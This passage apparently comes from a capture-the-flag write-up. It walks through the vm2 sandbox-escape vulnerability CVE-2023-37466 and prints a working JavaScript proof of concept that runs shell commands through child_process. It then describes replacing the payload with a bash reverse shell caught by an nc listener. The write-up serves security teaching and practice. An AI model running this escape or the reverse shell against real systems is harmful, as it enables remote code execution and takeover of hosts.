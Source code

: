 
An ICMP packet arrives at my host, which is evidence that the code executed.

#### CVE-2023-37466

This vulnerability is in the `Promise` handler:

    
    
    async function fn() {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
    p = fn();
    p.constructor = {
        [Symbol.species]: class FakePromise {
            constructor(executor) {
                executor(
                    (x) => x,
                    (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
                )
            }
        }
    };
    p.then();
    

It is the same as the previous one, though it returns `[object Object]`.
Changing it to `ping` works here as well.

### Shell

I’ll update my payload to a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), and start `nc` listening
on the same port:

![image-20240404092743068](../img/image-20240404092743068.png)
